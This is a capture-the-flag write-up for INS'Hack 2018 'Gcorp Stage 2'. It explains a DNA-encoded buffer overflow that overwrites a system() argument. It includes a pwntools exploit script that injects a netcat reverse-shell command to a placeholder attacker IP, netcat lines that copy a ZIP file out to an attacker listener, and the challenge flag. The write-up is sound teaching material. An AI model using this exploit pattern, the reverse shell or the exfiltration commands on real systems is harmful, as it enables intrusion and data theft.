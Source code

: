 ```yaml
---
title: INS'Hack 2018 - Gcorp Stage 2
authors: qlemaire
layout: writeup
ctf_url: http://inshack.insecurity-insa.fr/
---
```

Solves: 44 / Points: 85 / Category: PWN

## Challenge description
> All you need to do is to pwn using some DNA samples...
>
> Once you gathered enough information, go checkout https://gcorp-stage-2.ctf.insecurity-insa.fr/
>
> Note: you should validate stage 1 to have more information on stage 2.

In stage 1, we were given a pcap file. From a TCP stream, it was possible to extract a 64bits ELF executable. We are told that this binary is running on a remote server. It is translating DNA sequences into bytes.

## Challenge resolution

### DNA encoding

Performing static and dynamic analysis of the binary, we can see how DNA decoding is performed. It is actually a base4 decoding with "A", "C", "G" and "T" characters.

Each blocks of 4 characters encode 1 byte. We have the following correspondance table
```
AAAA => 0x00
AAAC => 0x01
AAAG => 0x02
AAAT => 0x03
AACA => 0x04
AACC => 0x05
AACG => 0x06
AACT => 0x07
AAGA => 0x08 (8)
AAGC => 0x09
AAGG => 0x0a
AAGT => 0x0b
AATA => 0x0c
AATC => 0x0d
AATG => 0x0e
AATT => 0x0f
ACAA => 0x10 (16)
...
TTTT => 0xff (255)
```

### Overflow

User input is a DNA sequence of maximum 1024 bytes. After decoding, the output is 1024/4 = 256 bytes long. However, this output is stored within a 128 bytes char table. Therefore, it is possible to write 128 junk bytes, then overflow the table to override the `gcmd` variable which is given as parameter to the `system` command.

To exploit the remote system, we have to write 128 junk bytes, then write the command (64 characters maximum) we want to execute.

### Building an exploit

Here is a local exploit code (don't forget to launch your listener to get the reverse shell). We send 128 times "TTTT" (which is decoded with "\xff") and then our encoded reverse shell command.

```python
from pwn import *

p = process('./73494.elf')

OFFSET = 128
FF = "TTTT" # "TTTT" sequence is converted to "\xff"
IP = "<FIXME_ATTACKER_IP>"
CMD = "nc " + IP + " <FIMXE_ATTACKER_PORT> -e /bin/sh" # reverse shell
BASE_4 = ["A", "C", "G", "T"] # 0, 1, 2, 3

dna_list = list()

# converting command in DNA (yeah this code could be improved and refactored)
for char in CMD:
    dna = ""
    dec_value = ord(char)

    first_index = float(dec_value)/float(64.0)
    dna += BASE_4[int(first_index)] # 1st letter

    rest = dec_value-int(first_index)*64
    second_index = float(rest)/float(16.0)
    dna += BASE_4[int(second_index)] # 2nd letter

    rest -= int(second_index)*16
    third_index = float(rest)/float(4.0)
    dna += BASE_4[int(third_index)] # 3nd letter

    rest -= int(third_index)*4
    fourth_index = float(rest)/float(1.0)
    dna += BASE_4[int(fourth_index)] # 4th letter

    dna_list.append(dna)

info("Command is %s"%CMD)
info("DNA is %s"%"".join(dna_list)) 

# building payload
payload = FF*OFFSET # sending 128 "\xff" 
payload += "".join(dna_list) # sending command to execute
payload += "AAAA" # \x00

info("Full payload:\n%s"%payload)

# write payload to file
with open('payload.txt', 'w') as f:
    f.write(payload)

p.send(payload)
```

### Remote exploitation

For remote exploitation, we send the payload (stored within `payload.txt` after local exploitation) in the body of an HTTP POST request to https://gcorp-stage-2.ctf.insecurity-insa.fr/.

As soon as we get a shell on the target, we cat the flag stored within `.flag.txt` :
```bash
$ cat .flag.txt
INSA{1fb977db25976d7e1a0fb713383de1cea90b2d15b4173708d867be3793571ed9}
```

## Retrieve Gcorp Stage 3 file

From the remote target, we can retrieve the ZIP file for Gcorp Stage 3 `stage_3_storage.zip` via netcat:
```bash
(local_machine) $ nc -nvlp <attacker-port> > stage_3_storage.zip
(remote_machine) $ nc <attacker-ip> <attacker-port> < stage_3_storage.zip
```

_Of course, don't do that with sensitive customers files, there is no encryption here._
